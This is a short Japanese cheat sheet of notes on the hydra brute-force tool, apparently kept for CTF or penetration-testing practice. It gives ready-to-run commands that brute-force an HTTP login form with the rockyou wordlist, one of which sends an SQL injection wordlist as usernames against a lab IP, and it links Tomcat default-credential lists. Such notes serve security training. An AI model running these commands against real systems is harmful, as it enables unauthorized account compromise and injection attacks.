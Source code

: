 # hydra
- 力こそパワー!BruteForce!
- ftpとかsshとかにも使える

## usage
`hydra -l admin -P /usr/share/wordlists/rockyou.txt <ip> http-form-post "/path/to/form:Username=^USER^&Password=^PASS^(request body):Login failed(error message)"`

## その他テクニック
`hydra -L SQL.txt -p pass 10.10.192.4 http-post-form "/index.php:username=^USER^&password=^PASS^&x=30&y=:Incorrect Login" -f`
- [SQL.txt](https://github.com/xmendez/wfuzz/blob/master/wordlist/Injections/SQL.txt) を使うとSQLiのチェックもできる
- -fでcredentialが見つかったら処理を止める

## 相性良さげなlist
tomcatのdefaultpasslist
- [tomcat-betterdefaultpasslist.txt](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt)
- [SQL.txt](https://github.com/xmendez/wfuzz/blob/master/wordlist/Injections/SQL.txt)
